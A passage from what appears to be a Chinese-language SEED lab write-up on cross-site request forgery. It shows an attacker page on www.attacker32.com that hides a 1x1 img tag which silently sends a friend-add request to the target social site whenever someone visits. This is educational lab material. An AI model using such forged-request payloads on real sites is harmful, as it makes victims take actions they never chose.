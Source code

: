 可以看到 `>` 被转义为了 `&gt` ，攻击并没有成功（看来这个漏洞已经被堵上了）。

于是我们还是按照实验文档的思路，在 www.attacker32.com 上编写攻击脚本。

我们修改 attacker 的 index.html 文件为：

```html
<!DOCTYPE html>
<html>
<head>
<titlei>Useful Website!
</head>
<body>
<p>No Page Available</p>
<img src= "http://www.seed-server.com/action/friends/add?friend=59" wid&th="1" height="1" />
</body>
</html>
```

我们设置标题为 Useful Website!，并添加了一个 img 标签，将请求链接藏在里面。

这样只要有人点击进 www.attacker32.com 就会自动触发加好友的请求。

我们登录 `Samy` 并发布该网站：

![2-6](../image/2-6.png)

